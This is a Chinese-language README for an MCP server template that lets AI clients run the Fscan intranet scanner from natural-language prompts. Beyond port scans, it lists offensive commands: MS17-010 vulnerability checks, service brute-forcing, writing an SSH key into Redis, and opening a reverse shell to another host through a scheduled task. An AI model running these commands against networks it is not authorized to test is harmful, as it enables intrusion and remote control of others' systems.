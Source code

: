 # Fscan MCP Server 模板
## 项目简介
Fscan MCP Server 是一个基于 **Model Context Protocol (MCP)** 的轻量级服务，旨在通过自然语言指令快速调用 **Fscan** 内网安全扫描工具。用户只需输入简单的中文提示（如 “帮我扫下 127.0.0.1 端口”），即可自动触发预设的 Fscan 命令，实现扫描任务的自动化执行。

### 核心功能
**自然语言触发**：支持通过中文指令直接调用 Fscan 扫描（如 “扫描 192.168.1.1/24 网段”）。
**内置命令模板**：预定义常见扫描场景（端口扫描、漏洞检测、服务爆破等），可快速扩展新指令。
**MCP 协议集成**：通过标准化协议与 MCP 客户端（如 Cursor、Claude Desktop）无缝对接，支持动态发现和安全权限控制。

## 安装指南
### 环境要求
Python 3.8+
MCP 客户端（如 [Cursor](https://www.cursor.so/) 或 [万径千机](https://github.com/xxx/wanjingqianji)）
需要在mcp_Server同目录下放置fscan.exe

### 步骤 1：安装依赖

```
pip install mcp==1.0.0
```

### 步骤 2：配置 MCP 客户端

以 **Cursor IDE** 为例：

创建配置文件 `mcp.config.json`：

```
{

&#x20; "mcpServers": {

&#x20;   "fscan-mcp-server": {

&#x20;     "name": "Fscan 内网安全扫描工具",

&#x20;     "command": "uv",

&#x20;     "args": \[

&#x20;       "--directory",

&#x20;       "\${WORKSPACE}/fscan\_MCP",

&#x20;       "run",

&#x20;       "--with",

&#x20;       "mcp",

&#x20;       "mcp",

&#x20;       "run",

&#x20;       "fscan\_mcp\_server.py"

&#x20;     ],

&#x20;     "disabled": false,

&#x20;     "autoApprove": \[]

&#x20;   }

&#x20; }

}
```
将配置文件导入 MCP 客户端（路径需根据实际项目调整）。

## 使用示例

### 触发指令

```
用户输入：帮我扫下127.0.0.1端口

模型调用：fscan.exe -h 127.0.0.1 -p 1-65535 -nopoc
```

### 扩展指令模板

在 `commands.json` 中添加新规则：



```
{

&#x20; "触发词": "扫描C段",

&#x20; "参数": {

&#x20;   "target": "192.168.1.1/24",

&#x20;   "ports": "1-1000",

&#x20;   "modules": "all"

&#x20; },

&#x20; "命令": "fscan.exe -h {target} -p {ports} -m {modules}"

}
```
## Fscan 功能支持

| 功能模块      | 指令示例                   | 对应 Fscan 命令                                     |
| --------- | ---------------------- | ----------------------------------------------- |
| 端口扫描      | 扫描 192.168.1.1 的 80 端口 | `fscan.exe -h 192.168.1.1 -p 80`                |
| 漏洞检测      | 检测 MS17-010 漏洞         | `fscan.exe -h 192.168.1.1 -m ms17010`           |
| Redis 写公钥 | 向 Redis 服务器写入 SSH 公钥   | `fscan.exe -h 192.168.1.1 -rf id_rsa.pub`       |
| 反弹 Shell  | 计划任务反弹 Shell           | `fscan.exe -h 192.168.1.1 -rs 192.168.1.2:6666` |

## 项目结构
```
fscan\_MCP/

├── fscan\_mcp\_server.py  # MCP 服务入口

├── commands.json       # 指令模板配置

└── README.md           # 文档
```

## 贡献指南
**添加新指令**：在 `commands.json` 中定义触发词和对应命令。
**优化逻辑**：修改 `fscan_mcp_server.py` 中的参数解析或响应处理。
**文档完善**：补充使用案例或配置说明。
## 许可证
本项目采用 **MIT 许可证**，详情见 [LICENSE](LICENSE)。

## 参考资料
[Fscan 官方文档](https://github.com/shadow1ng/fscan)
[MCP 协议规范](https://github.com/anthropic/mcp)
[MCP 客户端配置指南](https://www.cursor.so/docs/guides/mcp)
通过本模板，您可以快速构建自定义的 AI 驱动安全扫描工具链，实现从自然语言指令到复杂渗透测试任务的自动化执行。
